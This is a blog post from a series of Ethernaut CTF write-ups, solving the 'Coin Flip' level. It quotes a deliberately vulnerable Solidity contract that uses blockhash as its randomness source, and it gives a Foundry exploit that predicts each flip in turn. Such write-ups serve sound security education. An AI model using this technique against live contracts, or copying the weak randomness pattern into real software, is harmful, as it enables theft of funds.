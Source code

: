 ```yaml
---
title: 'Ethernaut Challenge #3 Solution — Coin Flip'
excerpt: 'This is Part 2 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>

For this challenge, our end goal is to be able to consecutively guess the coin flip result by calling the `flip()` function passing the correct guess.
'
coverImage: 
  url: '/assets/blog/ethernaut/coinflip.svg'
  credit: 
    name: OpenZeppelin
    url: https://ethernaut.openzeppelin.com/
date: '2020-07-01T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/coinflip.svg'
---
```


This is Part 2 of the ["Let's play OpenZeppelin Ethernaut CTF"](https://stermi.xyz/blog/lets-play-openzeppelin-ethernaut) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

# Challenge #3: Coin Flip

> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.
>
> Things that might help
>
> - See the Help page above, section "Beyond the console"
>
> Level author(s): [Kyle Riley](https://github.com/syncikin)

For this challenge, our end goal is to be able to consecutively guess the coin flip result by calling the `flip()` function passing the correct guess.

## Study the contracts

First thing that we notice, the Solidity compiler version used is `< 0.8.x`. This mean that the contract would be prone to math underflow and overflow bugs.

This contract is importing and using OpenZeppelin [SafeMath](https://docs.openzeppelin.com/contracts/4.x/api/utils#SafeMath) library, so they should be safe about overflow/underflow problems.

There are three state variables:

- `consecutiveWins` initialized by zero from the `constructor`. This variable will count how many consecutive correct guess we have made
- `FACTOR` that is declared as `57896044618658097711785492504343953926634992332820282019728792003956564819968`. Gas optimization tip: it can be declared as `constant` to save gas (see further reading)
- `lastHash` that will be updated each time by the `flip()` function

The only function inside the contract is `flip()`, let's see what it does

```solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
        revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
        consecutiveWins++;
        return true;
    } else {
        consecutiveWins = 0;
        return false;
    }
}
```

This challenge allows you to learn two important aspects about the blockchain:

1. Everything on the blockchain is public, even private variables like `lastHash` and `FACTOR`
2. There is no real "native" randomness in the blockchain, but only "pseudo randomness"

**Note:** I have added some useful links in the "Further reading" section of the article if you want to learn more about these two topics.

Looking at the code of the function, we know that:

1. We know how to calculate the correct `_guess` function parameter. `_guess = uint256(blockhash(block.number.sub(1))).div(FACTOR) == 1 ? true : false`
2. We know that we cannot call multiple time `flip()` in the same block; otherwise the function will revert. This mean that to pass the challenge, we need to at least guess correctly for 11 blocks. If you look at the Factory contract, you will see that the challenge is solved when `instance.consecutiveWins() >= 10`

Knowing that, let's see the solution.

## Solution code

```solidity
function exploitLevel() internal override {

    vm.startPrank(player);

    uint256 factor = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint8 consecutiveWinsToReach = 10;

    while (level.consecutiveWins() < consecutiveWinsToReach) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(factor);

        level.flip(coinFlip == 1 ? true : false);

        // simulate a transaction
        utilities.mineBlocks(1);
    }
    vm.stopPrank();
}
```

As you see, the solution is pretty straightforward. Loop until the `consecutiveWins()` getter tell us we have reached `10`.

Inside the loop we calculate the value to pass to `flip` replicating the same logic of the `CoinFlip.flip` function.

After calling it, we call `utilities.mineBlock(1);`. This is a utility function that I have created that call Foundry cheat code `vm.roll(targetBlock);` that allow you to set the current block number. Basically, we are just increasing the block number in each loop section to simulate that a new block has been minted.

You can read the full solution of the challenge opening [CoinFlip.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/CoinFlip.t.sol)

## Further reading

- [SWC-120: Weak Sources of Randomness from Chain Attributes](https://swcregistry.io/docs/SWC-120)
- [SWC-136: Unencrypted Private Data On-Chain](https://swcregistry.io/docs/SWC-136)
- [Chainlink VRF (Verifiable Random Function)](https://docs.chain.link/docs/chainlink-vrf/): a provably fair and verifiable random number generator (RNG)
- [Foundry Book Cheat codes](https://book.getfoundry.sh/cheatcodes/)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
